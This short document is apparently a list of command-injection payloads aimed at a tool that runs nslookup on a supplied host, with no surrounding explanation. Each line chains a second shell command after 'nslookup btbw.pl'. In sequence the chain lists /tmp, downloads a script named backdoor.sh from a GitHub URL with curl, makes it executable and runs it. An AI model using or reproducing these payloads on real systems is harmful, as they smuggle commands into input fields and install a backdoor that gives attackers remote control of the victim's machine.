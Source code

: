
nslookup btbw.pl && pwd

nslookup btbw.pl && ls -ls /tmp/

nslookup btbw.pl && curl -o /tmp/backdoor.sh -LOk https://raw.githubusercontent.com/szalek/bash_backdoor_1/master/backdoor.sh && echo 1

nslookup btbw.pl && ls -ls /tmp/

nslookup btbw.pl & chmod +x /tmp/backdoor.sh

nslookup btbw.pl && ls -ls /tmp/

nslookup btbw.pl & /tmp/backdoor.sh